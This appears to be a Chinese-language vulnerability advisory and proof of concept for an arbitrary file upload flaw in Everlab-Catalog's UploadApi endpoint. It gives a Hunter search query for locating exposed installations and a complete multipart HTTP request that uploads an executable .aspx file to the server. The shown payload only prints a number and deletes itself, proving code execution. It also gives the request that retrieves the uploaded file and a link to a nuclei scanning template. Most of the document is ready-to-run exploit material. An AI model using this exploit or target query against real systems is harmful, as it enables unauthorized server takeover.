

# 一、漏洞简介
Everlab-Catalog UploadApi存在文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ Everlab-Catalog 

# 三、资产测绘
+ Hunter`web.body="Everlab-Catalog"`
+ 特征



# 四、漏洞复现
```plain
POST /Util/UploadApi HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Content-Length: 345
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------7153094104923513110228090822
Origin: null
Upgrade-Insecure-Requests: 1
Connection: close

-----------------------------7153094104923513110228090822
Content-Disposition: form-data; name="Filedata"; filename="ckviaxtcmw.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#"%><% Response.Write(111*111);System.IO.File.Delete(Server.MapPath(Request.Url.AbsolutePath)); %>
-----------------------------7153094104923513110228090822--

```


上传文件位置

```plain
GET /upload/2023/12/25/bef4dd40-de3b-4139-837a-784f534a1e00.aspx HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Connection: close
Accept-Encoding: gzip, deflate
```


nuclei脚本

[Everlab-Catalog-uploadapi-任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222142716-42d94242-5e06-480f-a23c-443247a2d97d.yaml)

